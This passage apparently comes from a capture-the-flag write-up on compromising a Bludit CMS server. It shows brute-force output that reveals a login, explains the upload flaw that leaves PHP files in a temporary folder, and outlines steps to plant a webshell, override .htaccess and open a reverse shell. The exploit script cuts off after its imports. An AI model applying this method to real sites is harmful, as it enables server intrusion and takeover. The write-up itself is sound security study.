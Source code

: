     
    
    root@kali# time ./bludit_brute.py wordlist 
    SUCCESS: Password found!                                                                              
    Use fergus:RolandDeschain to login.
    
    
    real    0m16.018s
    user    0m1.840s
    sys     0m0.253s
    

### PHP Upload Exploit

There’s a Metasploit script that will just run this, but I want to understand
what’s happening. There are two issues on GitHub about this,
[1079](https://github.com/bludit/bludit/issues/1079) and
[1081](https://github.com/bludit/bludit/issues/1081). The first takes
advantage of the fact that when a PHP file is uploaded, it is stored in a
temporary location before the extension check. If the extension check returns
that the file is ok, it is moved to the right location. But if the check
returns that it fails, the file is not removed from the knowable temporary
location. Code won’t run out of that location due to the `.htaccess` file from
the root of the project:

    
    
    # Deny direct access to the next directories
    rewriteRule ^bl-content/(databases|workspaces|pages|tmp)/.*$ - [R=404,L]
    

However, I can override that by uploading a new `.htaccess` file to that
directory.

The second ([1081](https://github.com/bludit/bludit/issues/1081)) is a
criticism of an incomplete fixing of the bug between versions, and as both
ticket are closed with “Fixed in Bludit v3.10.0.”, I’ll focus on the first to
start.

My script will take the following steps:

  1. Login.
  2. Get a CSRF token from the uploads page.
  3. Upload the webshell as a `.php` file. Server will say it fails, but copy will still be saved in `/bl-content/tmp`.
  4. Upload `.htaccess` file that turns off `RewriteEngine`.
  5. Trigger webshell with reverse shell on port 443.

My script is:

    
    
    #!/usr/bin/env python3
    
    import netifaces as ni
    import re
    import requests
    